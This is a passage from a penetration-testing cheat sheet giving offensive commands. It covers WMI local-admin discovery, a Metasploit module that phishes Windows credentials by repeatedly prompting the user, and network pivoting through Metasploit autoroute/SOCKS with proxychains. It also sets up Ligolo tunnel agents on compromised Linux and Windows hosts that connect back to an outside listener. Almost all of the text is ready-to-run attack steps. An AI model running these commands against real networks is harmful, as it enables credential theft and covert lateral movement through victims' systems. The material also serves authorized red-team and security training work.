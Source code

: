 
If RPC and SMB are blocked check with WMI
```powershell
Import-Module Find-WMILocalAdminAccess.ps1
Find-WMILocalAdminAccess
```


### Phishing with Metasploit
Using Metasploit we can leverage a phishing module to harvest user credentials by harassing them until they enter valid credentials.
```bash
msf6> use post/windows/gather/phish_windows_credentials
msf6> set session 1
msf6> run
```

## Pivoting

### Metasploit
```
msfconsole
> search autoroute
> use 0
> set session $
> run

> search socks
> use 0
> set srvport 9050
> run

$ proxychains -q cme smb .........
```

### Ligolo
Linux Host 
```bash
ip tuntap add user root mode tun ligolo
ip link set ligolo up
ip route add 192.168.110.0/24 dev ligolo
./proxy -laddr 0.0.0.0:53 -selfcert
```

Linux Target
```bash
# upload compiled agent
./agent -connect x.x.x.x:53 -ignore-cert &
```

Windows Target
```cmd
.\agent.exe -connect x.x.x.x:53 -ignore-cert
```
